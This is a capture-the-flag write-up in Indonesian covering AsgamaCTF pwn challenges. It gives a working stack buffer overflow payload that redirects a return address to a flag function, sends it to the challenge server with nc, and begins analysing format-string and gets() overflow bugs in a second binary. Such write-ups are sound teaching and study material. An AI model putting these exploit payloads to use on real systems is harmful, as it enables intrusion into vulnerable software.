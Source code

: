 ### Exploit

1. Panjang padding yaitu 52 untuk sampai ke *return address*.
2. Tambah alamat fungsi `flag` yaitu `0x080491c2`.
3. Susun payload.

```bash
$ python -c 'print "A"*52 + "\xc2\x91\x04\x08"' | ./buffow

$ Hmm
```

Program tidak ada output. Debug menggunakan `gdb` lihat apa yang sebenarnya terjadi pada program.

```sh
$ python -c 'print "A"*52 + "\xc2\x91\x04\x08"' > exp
$ gdb -q ./buffow
Reading symbols from ./buffow...(no debugging symbols found)...done.
gdb-peda$ r < exp 
Starting program: /home/abdullahnz/CTF/AsgamaCTF/PWN/buffow < exp
[Inferior 1 (process 19910) exited normally]
Warning: not running or target is remote
```

Ternyata program tidak mengalami *crash*. Coba tambah padding lagi dengan 200 karakter. Dan `flag` didapat.


```bash
$ python -c 'print "A"*52 + "\xc2\x91\x04\x08" + "B"*200 ' | ./buffow 
GamaCTF{th3_re4l_fl4g_0n_th3_s3rv3r:))}

$ python -c 'print "A"*52 + "\xc2\x91\x04\x08" + "B"*200' | nc asgama.web.id 40211
GamaCTF{Ini_Bukan_Flagnya}
```

### Flag
`GamaCTF{Ini_Bukan_Flagnya}`.

## Bebas

Diberikan file `bebas.zip` yang didalamnya terdapat file binary elf 32bit yang executable.
```sh
$ file soal 
soal: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=1e0fd5399de0053521ffb91126a380a5ccfa1255, not stripped
```

Binary ini membutuhkan 2 inputan client, yaitu nama dan alamat yang dimana keduanya memiliki bug `format string` dan `buffer overflow` karena inputan menggunakan fungsi `gets`.

```py
$ ./soal 
Selamat Datang di Co-Jek
Masukan Nama Anda:
>> %p|%p|%p
Hai 0x8048803|0xffa27e8a|0x80486a8!
Masukan alamat : 
>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Pesanan akan segera diantar!
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```
